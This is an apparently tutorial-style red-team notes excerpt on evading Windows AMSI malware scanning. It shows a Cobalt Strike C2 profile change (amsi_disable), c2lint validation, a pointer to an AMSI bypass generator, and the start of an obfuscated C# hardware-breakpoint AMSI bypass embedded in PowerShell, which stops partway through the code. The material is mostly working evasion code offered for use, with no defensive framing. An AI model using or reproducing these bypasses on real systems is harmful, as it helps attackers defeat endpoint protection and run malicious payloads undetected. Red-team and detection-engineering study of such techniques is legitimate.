AMSI can also catch you with powershell, powerpick, or execute-assembly

so to combat this we can include a configuration in cobat strike called amsi_disable
```
vim c2-profiles/normal/webbug.profile
```

then add this above the http-get block
```
post-ex {
        set amsi_disable "true";
}
```

check if the config files works
```
./c2lint c2-profiles/normal/webbug.profile
```

restart teamserver with this change


**Manual AMSI Bypasses**

Tools:
[amsifail](https://amsi.fail/)

tool above can generate multiple different types of AMSI bypasses

some payloads may still trigger even if threatcheck says they are clean and amsi_disable doesn't apply to them 

here is a bypass we can save as a file
```
$HWBP = @"
using System;
using System.Collections.Generic;
using System.Linq.Expressions;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;

namespace HWBP
{
    public class Amsi
    {
        static string a = "msi";
        static string b = "anB";
        static string c = "ff";
        static IntPtr BaseAddress = WinAPI.LoadLibrary("a" + a + ".dll");
        static IntPtr pABuF = WinAPI.GetProcAddress(BaseAddress, "A" + a + "Sc" + b + "u" + c + "er");
        static IntPtr pCtx = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(WinAPI.CONTEXT64)));
        
        public static void Bypass()
        {
            WinAPI.CONTEXT64 ctx = new WinAPI.CONTEXT64();
            ctx.ContextFlags = WinAPI.CONTEXT64_FLAGS.CONTEXT64_ALL;

            MethodInfo method = typeof(Amsi).GetMethod("Handler", BindingFlags.Static | BindingFlags.Public);
            IntPtr hExHandler = WinAPI.AddVectoredExceptionHandler(1, method.MethodHandle.GetFunctionPointer());
            
            Marshal.StructureToPtr(ctx, pCtx, true);
            bool b = WinAPI.GetThreadContext((IntPtr)(-2), pCtx);
            ctx = (WinAPI.CONTEXT64)Marshal.PtrToStructure(pCtx, typeof(WinAPI.CONTEXT64));
```